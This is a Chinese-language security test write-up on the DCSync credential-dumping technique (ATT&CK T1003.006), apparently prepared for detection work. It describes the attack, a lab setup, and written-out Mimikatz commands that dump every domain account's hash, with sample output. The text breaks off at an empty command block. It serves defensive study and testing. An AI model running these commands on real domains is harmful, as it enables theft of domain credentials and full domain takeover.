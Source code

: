 # T1003.006-Win-基于DCSync凭证获取

## 描述

DCSync（MITRE ATT&CK T1003.006）是一种凭据转储技术，攻击者通过滥用Windows域控制器的目录复制服务远程协议（MS-DRSR），模拟域控制器（DC）行为，提取Active Directory（AD）中的密码数据（如NTLM哈希、Kerberos票据）。此技术利用`GetNCChanges`函数请求AD复制数据，包括高价值账户（如KRBTGT、Administrator）的凭据哈希，可用于创建黄金票据（Golden Ticket）或执行票据传递攻击（Pass-the-Ticket）。DCSync攻击需要高权限（如Administrators、Domain Admins、Enterprise Admins或具有“复制目录更改”权限的账户），通常在杀伤链后期使用，常见于Mimikatz的`lsadump::dcsync`模块。

![img](https://s2.ax1x.com/2019/09/24/uk1Q6x.png)

### DCsync攻击原理

一般来说，DCSYNC攻击的工作方式如下：

1. 发现域控制器以请求复制。
2. 使用[GetNCChanges](https://wiki.samba.org/index.php/DRSUAPI) 函数请求用户复制 。
3. DC将复制数据返回给请求者，包括密码哈希值。


![img](https://s2.ax1x.com/2019/09/24/uk1ttH.gif)

## 测试案例

### 测试环境
- 域控制器：Windows Server 2019（dc.abcc.org）
- 域内主机：Windows 10
- 工具：Mimikatz、PowerShell（Invoke-Mimikatz）
- 要求：域管理员权限（Domain Admins）、域环境（abcc.org）、启用Windows安全日志审计
- 用户：Administrator（测试账户）

### 测试准备
1. 确认域管理员权限：
   ```cmd
   whoami /groups
   ```
   - 确保包含`Domain Admins`组。
2. 启用安全日志审计：
   - 组策略：计算机配置 > 策略 > Windows设置 > 安全设置 > 本地策略 > 审核策略 > 账户管理、对象访问 > 启用成功和失败审计。
3. 下载Mimikatz：
   - URL：<https://github.com/gentilkiwi/mimikatz>
   - 放置于域内主机（C:\Tools\mimikatz）。
4. 下载Invoke-Mimikatz（PowerShell）：
   - URL：<https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1>
   - 保存至本地（C:\Tools\Invoke-Mimikatz.ps1）。
5. 确保域内主机与域控制器网络连通。

### 测试步骤
1. **使用Mimikatz导出所有用户哈希**（域内主机）：
   ```cmd
   cd C:\Tools\mimikatz
   mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:abcc.org /all /csv" exit
   ```
   - 输出示例：
     ```
     User,Domain,NTLM
     Administrator,ABCC,31d6cfe0d16ae931b73c59d7e0c089c0
     krbtgt,ABCC,aad3b435b51404eeaad3b435b51404ee
     ```
2. **使用Mimikatz导出Administrator哈希**：
   ```cmd
   ```